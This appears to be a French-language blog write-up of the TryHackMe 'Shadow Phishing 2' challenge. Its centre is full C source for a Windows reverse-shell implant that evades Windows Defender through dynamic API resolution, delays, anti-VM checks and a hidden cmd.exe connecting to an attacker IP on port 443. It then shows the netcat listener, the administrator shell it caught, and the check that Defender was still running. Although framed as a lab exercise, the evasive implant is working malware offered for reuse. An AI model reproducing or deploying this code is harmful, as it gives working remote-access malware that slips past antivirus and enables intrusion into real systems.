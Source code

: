 ```yaml
---
title: TryHackMe - Shadow Phishing 2
date: 2025-03-29 23:20:45 -0400
description: Le challenge "Shadow Phishing 2" est la suite du premier challenge "Shadow Phishing" dans le Hackfinity Battle sur TryHackMe. Comme dans le premier défi, un email de Cipher (cipher@darknetmail.corp) à ShadowByte (shadowbyte@darknetmail.corp) demande la création d’un exécutable nommé SilentEdge Installer, qui doit fonctionner sur Windows 10 x64. Cependant, cette fois, l’email mentionne implicitement une phase plus avancée ("Phase 2"), et le challenge introduit une nouvelle contrainte, la présence de Windows Defender, qui doit être contourné pour que l’exécutable puisse s’exécuter sans être détecté.
categories: [TryHackMe]
tags: [THM, CTFs, Hacking, AV]
image:
    path: https://i.ibb.co/JwP1s3yp/Design-sans-titre.png
---
```



- **[The Best Academy to Learn Hacking](https://referral.hackthebox.com/mz6xj5g)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.




![Hacked](https://i.ibb.co/q344qJCP/a.png)

<h2 style="color: orange;">Resolution</h2>

Contrairement au premier challenge, où un `payload` généré par `msfvenom` suffisait, ici **Windows Defender** est actif, ce qui signifie qu’un `payload` brut serait immédiatement détecté. J’ai donc décidé d’utiliser un programme en C ecris par un amis RedTeamer pour créer un reverse shell furtif, en utilisant des techniques avancées comme la résolution dynamique des `API`, des délais aléatoires, et des vérifications `anti-VM` pour minimiser les chances de détection.

voici le programme `C` qui établit une connexion reverse shell vers mon IP (`10.6.8.193`) sur le port `443`, un port couramment utilisé pour le trafic `HTTPS`, ce qui peut aider à masquer la communication.


```c
#include <winsock2.h>
#include <windows.h>
#include <winternl.h>
#include <stdio.h>

#pragma comment(lib, "ws2_32")
#pragma comment(lib, "ntdll")

typedef NTSTATUS (NTAPI *PNT_DELAY_EXEC)(BOOLEAN, PLARGE_INTEGER);

void stealth_connection() {
    if (GetTickCount() < 300000 || GetSystemMetrics(SM_REMOTESESSION)) return;

    // Dynamic API resolution
    HMODULE hWS2 = LoadLibraryA("ws2_32.dll");
    if (!hWS2) return;

    int (WINAPI *pWSAStartup)(WORD, LPWSADATA) = (int (WINAPI*)(WORD, LPWSADATA))GetProcAddress(hWS2, "WSAStartup");
    SOCKET (WINAPI *pWSASocket)(int, int, int, LPVOID, DWORD, DWORD) = (SOCKET (WINAPI*)(int, int, int, LPVOID, DWORD, DWORD))GetProcAddress(hWS2, "WSASocketA");
    int (WINAPI *pWSAConnect)(SOCKET, const struct sockaddr*, int, LPWSABUF, LPWSABUF, LPQOS, LPQOS) = (int (WINAPI*)(SOCKET, const struct sockaddr*, int, LPWSABUF, LPWSABUF, LPQOS, LPQOS))GetProcAddress(hWS2, "WSAConnect");

    if (!pWSAStartup || !pWSASocket || !pWSAConnect) {
        FreeLibrary(hWS2);
        return;
    }

    WSADATA wsa;
    if (pWSAStartup(MAKEWORD(2, 2), &wsa) != 0) {
        FreeLibrary(hWS2);
        return;
    }

    struct sockaddr_in sa = {
        .sin_family = AF_INET,
        .sin_port = htons(443),
        .sin_addr.s_addr = inet_addr("$ip")  // Fixing the IP byte order
    };

    // Random delay
    HMODULE hNTDLL = GetModuleHandleA("ntdll.dll");
    PNT_DELAY_EXEC pNtDelay = (PNT_DELAY_EXEC)GetProcAddress(hNTDLL, "NtDelayExecution");
    if (pNtDelay) {
        LARGE_INTEGER interval = {.QuadPart = -((GetCurrentProcessId() % 5 + 1) * 10000000)};
        pNtDelay(FALSE, &interval);
    }

    SOCKET sock = pWSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    if (sock == INVALID_SOCKET) {
        FreeLibrary(hWS2);
        return;
    }

    if (pWSAConnect(sock, (SOCKADDR*)&sa, sizeof(sa), NULL, NULL, NULL, NULL) == 0) {
        STARTUPINFOA si = { .cb = sizeof(si), .dwFlags = STARTF_USESTDHANDLES };
        PROCESS_INFORMATION pi;
        si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)sock;

        char cmd[] = "cmd.exe";  // Fixed
        if (CreateProcessA(NULL, cmd, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi)) {
            WaitForSingleObject(pi.hProcess, INFINITE);
            CloseHandle(pi.hProcess);
            CloseHandle(pi.hThread);
        }
    }

    closesocket(sock);
    FreeLibrary(hWS2);
}

// Proper Windows entry point
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    SYSTEM_INFO si;
    GetNativeSystemInfo(&si);
    if (si.dwNumberOfProcessors < 2) return 0;  // Anti-VM check

    stealth_connection();
    return 0;
}
```

D'apres l'Intelligence Artificielle, Ce code utilise plusieurs techniques pour contourner Windows Defender :
1. **Résolution dynamique des API** : Les fonctions comme `WSAStartup`, `WSASocket`, et `WSAConnect` sont résolues dynamiquement avec `GetProcAddress`, ce qui évite d’avoir des appels statiques facilement détectables.
2. **Délai aléatoire** : Un délai est introduit avec `NtDelayExecution` pour éviter les comportements suspects immédiats
3. **Anti-VM** : Une vérification sur le nombre de processeurs (`si.dwNumberOfProcessors < 2`) permet de ne pas exécuter le `payload` dans un environnement de test ou une VM.
4. **Port 443** : La connexion utilise le port `443` pour se fondre dans le trafic `HTTPS`.
5. **Exécution discrète** : Le processus `cmd.exe` est lancé sans fenêtre `CREATE_NO_WINDOW` pour rester furtif.

- **Soumission et réception du reverse shell**

Après avoir compilé le payload en `.exe`, je l’ai soumis via l’email pour le **dead drop**. J’ai ensuite configuré un listener avec `netcat` sur le port `443` pour recevoir la connexion reverse shell :

![Reverse](https://i.ibb.co/GfXmZn6f/r.png)

La connexion a été établie depuis `l’IP` de la machine cible (`10.10.254.5`) vers mon IP (`10.6.8.193`) sur le port `443`. La commande `whoami` a confirmé que j’avais un shell avec les privilèges de l’utilisateur `fisher\administrator`, ce qui signifie un accès administrateur.



Pour confirmer que Windows Defender était actif et que mon payload l’avait bien contourné, j’ai exécuté la commande suivante dans le shell :


```console
C:\Windows\system32>sc query windefend
sc query windefend

SERVICE_NAME: windefend 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 4  RUNNING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Windows\system32>
```
La sortie montre que le service `windefend` (**Windows Defender**) était en état `RUNNING`, ce qui signifie que l’antivirus était actif. Malgré cela, mon exécutable n’a pas été détecté, grâce aux techniques d’obfuscation utilisées dans le code.






<h2 style="color: orange;">Ressources supplementaires</h2>
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
- [AV Bypass RedTeam](https://www.ired.team/offensive-security/defense-evasion)
- [AV Explained](https://www.vaadata.com/blog/antivirus-and-edr-bypass-techniques/)
- **Love my artciles?** Follow me on [Twitter](https://x.com/@bloman19) and [Github](https://github.com/0xabdoulaye)
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
